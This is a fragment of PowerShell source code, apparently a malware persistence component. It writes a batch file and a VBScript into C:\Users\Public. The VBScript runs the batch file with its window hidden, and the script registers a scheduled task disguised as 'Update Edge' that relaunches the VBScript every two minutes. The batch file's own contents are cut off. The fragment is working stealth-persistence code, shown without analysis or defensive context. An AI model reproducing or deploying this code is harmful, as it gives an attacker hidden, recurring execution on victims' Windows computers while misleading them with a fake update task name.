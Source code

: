 ```shell
'@
[IO.File]::WriteAllText("C:\Users\Public\Conted.bat", $Content)

$Content = @'
on error resume next
Function CreateWshShellObj()
    Dim objName
    objName = "WScript.Shell"
    Set CreateWshShellObj = CreateObject(objName)
End Function

Function GetFilePath()
    Dim filePath
    filePath = "C:\Users\Public\Conted.bat"
    GetFilePath = filePath
End Function

Function GetVisibilitySetting()
    Dim visibility
    visibility = 0
    GetVisibilitySetting = visibility
End Function

Function RunFile(wshShellObj, filePath, visibility)
    wshShellObj.Run filePath, visibility
End Function

Set wshShellObj = CreateWshShellObj()
filePath = GetFilePath()
visibility = GetVisibilitySetting()
Call RunFile(wshShellObj, filePath, visibility)

'@
[IO.File]::WriteAllText("C:\Users\Public\Conted.vbs", $Content)


Sleep 2

$scheduler = New-Object -ComObject Schedule.Service
$scheduler.Connect()

$taskDefinition = $scheduler.NewTask(0)
$taskDefinition.RegistrationInfo.Description = "Runs a script every 2 minutes"
$taskDefinition.Settings.Enabled = $true
$taskDefinition.Settings.DisallowStartIfOnBatteries = $false

$trigger = $taskDefinition.Triggers.Create(1)  # 1 = TimeTrigger
$trigger.StartBoundary = [DateTime]::Now.ToString("yyyy-MM-ddTHH:mm:ss")
$trigger.Repetition.Interval = "PT2M"

# إضافة الـ Action
$action = $taskDefinition.Actions.Create(0)  # 0 = ExecAction
$action.Path = "C:\Users\Public\Conted.vbs"

$taskFolder = $scheduler.GetFolder("\")
$taskFolder.RegisterTaskDefinition("Update Edge", $taskDefinition, 6, $null, $null, 3)
```
